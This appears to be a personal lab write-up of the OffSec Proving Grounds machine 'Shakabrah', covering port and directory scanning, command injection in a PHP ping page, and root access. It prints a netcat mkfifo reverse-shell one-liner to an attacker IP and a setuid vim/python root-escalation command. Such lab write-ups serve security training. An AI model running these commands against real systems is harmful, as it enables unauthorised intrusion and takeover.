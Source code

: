 ```yaml
---
title: OffSec PG - Shakabrah
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.80.86`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.80.86`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                   |
| -------- | ----------- | ------------------------------------------------------------ |
| 22       | SSH         | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.29 ((Ubuntu))                               |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.80.86 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- index.php

---

## Exploitation

The webpage is basically a php file that executes ping to a given IP address and rendered the result. This is however, vulnerable to command injection. Therefore, IP addresses or domains can be appended with `; whoami` to execute the command and retrieve the result.

This is because user input is directly passed to the backend to execute and retrieve the result. This is the RCE observed. This is used to retrieve the `/etc/passwd` file which has two users of interest &rarr; `dylan` and `root`.

The RCE can also be used to take a look inside the `/home/` directory and the files inside the user `dylan`'s home were readable by `www-data` user RCE, which gives the user flag.

Further, to get a shell, the usual reverse shell one liners are used. None of them worked. Thus followed a convention to look at listening ports using `netstat -ntaup`. These ports are more likely to not be denied connections "to" since they are allowed ports on the machine for connections "from" other addresses.

The shell payload that worked was `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1|nc 192.168.49.172 80 > /tmp/f` with the netcat instance listening on port 80. This gave a shell as `www-data`.

---

## Privilege Escalation

Looking at the setuid binaries in the system, an interesting one is `vim.basic` because vim allows executing shell commands.

Therefore, a shell can be lanuched by using `vim.basic -c ':! bash'` command. However, this does not set the privileges. The uid is still that of `www-data`.

This can be done by using python since it is there on the system, otherwise a C code would have to be compiled and executed. The python command can be executed as follows &rarr;

```
vim.basic -c ':py3 import os; os.setuid(0); os.system("/bin/bash")'
```

This gives the root shell and thus the root flag.

---
